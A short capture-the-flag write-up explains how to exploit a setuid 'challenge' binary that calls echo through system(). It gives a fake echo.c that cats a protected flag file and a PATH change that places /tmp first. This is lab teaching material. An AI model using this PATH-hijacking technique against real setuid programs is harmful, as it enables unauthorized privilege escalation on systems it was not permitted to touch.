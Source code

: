 If you notice the permissions on the executable file 'challenge' -> it has a setuid bit enabled. That means that this file would be executed with the privileges of the owner of the file. However, the is not the case with the flag file. You do not have permissions to read the flag file. So how, would you get the contents of the flag file?

If you look at the challenge.c program it is executing a system command with echo. The way it works is that it looks for the echo executable inside the PATH variable. If we can modify the PATH variable to have our own echo executable then anything inside our created executable will be executed with the permissions of the setuid enabled program.


Steps :-

1. Create a program with the name echo.c inside /tmp (It is critical to name the file as echo.c)

#include<stdio.h>
#include<stdlib.h>

int main()
{
  system("cat /home/privilege-escalation/getflag");
}

2. Compile the program

3. Add /tmp to the PATH variable
PATH=/tmp/:$PATH

4. Executing the setuid enabled enabled program should give you the flag.


